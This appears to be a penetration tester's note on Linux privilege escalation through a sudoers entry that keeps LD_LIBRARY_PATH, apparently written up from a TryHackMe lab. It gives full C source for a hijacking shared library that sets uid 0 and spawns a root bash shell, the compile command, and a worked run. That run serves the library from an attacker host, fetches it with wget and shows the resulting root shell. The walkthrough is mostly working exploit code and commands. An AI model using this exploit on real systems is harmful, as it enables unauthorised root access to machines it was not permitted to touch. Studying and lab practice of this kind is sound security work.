 Note: this exploit is extremely similar to the [[env_keep+=LD_PRELOAD exploitation]] exploit.
`LD_LIBRARY_PATH` is an environment variable, which is similar to the `PATH` variable. 
It's used specify the path load the shared objects (`.so` files) called upon by a program.
Sometimes it can be specified in the `/etc/sudoers` file, which can be listed using `sudo -l`.

#### Checking for vulnerability
###### Note: If the `sudo -l` output is available, LinPEAS will flag the `LD_LIBRARY_PATH` if vulnerable. Usually, you need to enter the `sudo -l` with a password to see. If this isn't done, LinPEAS won't flag it.
First, run `sudo -l`, and check the output. If it contains `LD_LIBRARY_PATH`, it should be vulnerable.
#### Exploitationtest
Nearly every binary will call for shared objects, and when using the `LD_LIBRARY_PATH` environment variable, it will look in the specified path first.
This means it becomes vulnerable to a hijacking attack, where a false copy with the same name as a legitimate library is used, but has malicious code inside.
The exploitation steps are very similar to `PATH` exploitation.
First, to get the names of the libraries called upon by a binary:
```
ldd FULL_PATH_TO_TARGET_BINARY            // Note: This includes the name of the binary itself (ex: /usr/bin/bash, not /usr/bin)
```
From here, pick any shared object to hijack.
The `libcrypt.so.1` is very common, so we will use it here.

Code (filename: `exploit.c`):
```
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setuid(0);   // If the user specified to run is different from Sudo, use the UID of that user.
	setgid(0);   // If the group specified to run is different from Sudo, use the GID of that user.
	system("/bin/bash -p");
}
```
Compiling:
```
gcc -o libcrypt.so.1 -shared -fPIC exploit.c
```

This can all be done locally, as long as the architecture and operating system of the target machine and the local machine are the same.

Finally, run the exploit:
```
sudo LD_LIBRARY_PATH=PATH_TO_LIBRARY COMMAND
```
Note: make sure to specify the path to the `libcrypt.so.1` .

### Example
First, to check for vulnerability:
```
rick@Hijack:/tmp/test$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
In the third line, the `env_keep+=LD_LIBRARY_PATH` exists, so it's vulnerable.
To check the libraries called upon by the exploitable binary:
```
rick@Hijack:/tmp/test$ ldd /usr/sbin/apache2                                                                           
        linux-vdso.so.1 =>  (0x00007ffdedf6e000)  
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fb5acc54000)                                        
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007fb5aca2d000)                                                                                                                                                 
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007fb5ac7fb000)                              
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb5ac5de000)                              
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb5ac214000)                                           
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fb5abfdc000)                                 
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007fb5abdb3000)                                 
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007fb5abbae000)                                   
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fb5ab9aa000)                                       
        /lib64/ld-linux-x86-64.so.2 (0x00007fb5ad169000)
```
It uses `libcrypt.so.1`, so that will be the name of the binary.
Then, to compile the code from [[#Exploitation]]:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #nvim exploit.c
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
	└──╼ #gcc -o libcrypt.so.1 -shared -fPIC exploit.c
exploit.c: In function ‘_init’:
exploit.c:6:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |   setuid(0); // If the user specified to run is different from Sudo, use the UID
      |   ^~~~~~
exploit.c:8:3: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |   setgid(0); // If the group specified to run is different from Sudo, use the
      |   ^~~~~~
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #ls libcrypt.so.1
libcrypt.so.1
```
Getting the binary from the local machine to the target:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

rick@Hijack:/tmp/test$ wget http://10.8.1.167:8000/libcrypt.so.1
--2023-10-27 11:07:26--  http://10.8.1.167:8000/libcrypt.so.1
Connecting to 10.8.1.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18160 (18K) [application/octet-stream]
Saving to: ‘libcrypt.so.1’
libcrypt.so.1                                                  100%[=========================================================================================================================================>]  17.73K  --.-KB/s    in 0.03s   
2023-10-27 11:07:26 (687 KB/s) - ‘libcrypt.so.1’ saved [18160/18160]
```
Finally, to exploit:
```
rick@Hijack:/tmp/test$ sudo LD_LIBRARY_PATH=/tmp/test /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2                                                                                                                          
/usr/sbin/apache2: /tmp/test/libcrypt.so.1: no version information available (required by /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0)                                                                                                        
root@Hijack:/tmp/test# id           
uid=0(root) gid=0(root) groups=0(root)
```
